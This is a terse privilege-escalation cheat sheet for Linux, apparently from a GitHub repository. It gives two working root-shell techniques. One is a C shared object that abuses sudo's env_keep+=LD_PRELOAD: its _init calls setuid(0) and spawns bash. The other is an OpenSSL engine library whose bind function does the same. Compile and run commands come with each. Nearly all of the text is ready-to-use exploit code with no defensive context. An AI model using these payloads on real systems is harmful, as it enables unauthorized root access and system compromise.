 ## ENV_KEEP+=LD_PRELOAD
#### Allow programs to use shared libraries
```
run sudo -l and find env_keep+=LD_PRELOAD
> EXAMPLE = secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\,env_keep+=LD_PRELOAD
write a c code compiled as share object
nano shell.c
  #include <stdio.h>
        #include <sys/types.h>
        #include <stdlib.h>

        void _init() {
            unsetenv("LD_PRELOAD");
            setgid(0);
            setuid(0);
            system("/bin/bash");
        }
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
run sudo LD_PRELOAD=[path to shell.so] [program to run]
```

## OpenSSL capabilities library load
#### It loads shared libraries that may be used to run code in the binary execution context 
```
#include <stdio.h>
      #include <sys/types.h>
      #include <unistd.h>
      #include <openssl/engine.h>

      static const char *engine_id = "root shell";
      static const char *engine_name = "Spawns a root shell";

      static int bind(ENGINE *e, const char *id)
      {
         int ret = 0;

         if (!ENGINE_set_id(e, engine_id)) {
             fprintf(stderr, "ENGINE_set_id failed\n");
             goto end;
         }
        
         if (!ENGINE_set_name(e, engine_name)) {
             printf("ENGINE_set_name failed\n");
             goto end;
         }

         setuid(0);
         setgid(0);
         system("/bin/bash");
        
         ret = 1;
        
         end:
         return ret;
     }

     IMPLEMENT_DYNAMIC_BIND_FN(bind)
     IMPLEMENT_DYNAMIC_CHECK_FN()
$ gcc -fPIC -o rootshell.o -c rootshell.c
      $ gcc -shared -o rootshell.so -lcrypto rootshell.o
chmod +x rootshell.so
```